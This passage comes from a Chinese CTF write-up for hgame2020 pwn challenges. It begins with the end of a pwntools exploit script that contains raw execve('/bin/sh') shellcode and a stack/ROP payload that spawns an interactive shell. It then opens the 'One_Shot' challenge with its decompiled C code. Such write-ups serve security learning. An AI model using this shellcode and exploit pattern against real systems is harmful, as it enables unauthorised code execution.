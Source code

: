 ```python
# elf, libc
# shellcode = asm(shellcraft.sh())
shellcode = '\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05\x00\x00'

buf = 0x7fffffffda90
ret = 0x7fffffffdaf8

# rop1
ru('Let\'s Pwn me with numbers!\n')
for i in range(11):
    sl(str(i))
sl(str(0x0000000b00000000))
sl(str(0xdeadbeef))
sl(str(jrsp))

sh = []
for i in range(len(shellcode)/8):
    sh.append(u64(shellcode[8*i:8*i+8]))

for i in sh:
    print str(i),len(str(i))
    sl(str(i))

# debug('b *0x0000000000400766')
for i in range(3):
    sl('1')

p.interactive()
```



## One_Shot

 - 题目描述：一发入魂
 - 题目地址：[One_Shot](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/hgame2020/pwn/week1_3/One_Shot)
 - 考察点：字符串截断
 - 难度：入门
 - 分值：100
 - 完成人数：119

反汇编分析程序：

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  _BYTE *v4; // [rsp+8h] [rbp-18h]
  int fd[2]; // [rsp+10h] [rbp-10h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v4 = 0LL;
  *(_QWORD *)fd = open("./flag", 0, envp);
  setbuf(stdout, 0LL);
  read(fd[0], &flag, 0x1EuLL);
  puts("Firstly....What's your name?");
  __isoc99_scanf("%32s", &name);
  puts("The thing that could change the world might be a Byte!");
  puts("Take tne only one shot!");
  __isoc99_scanf("%d", &v4);
  *v4 = 1;
  puts("A success?");
  printf("Goodbye,%s", &name);
  return 0;
}
```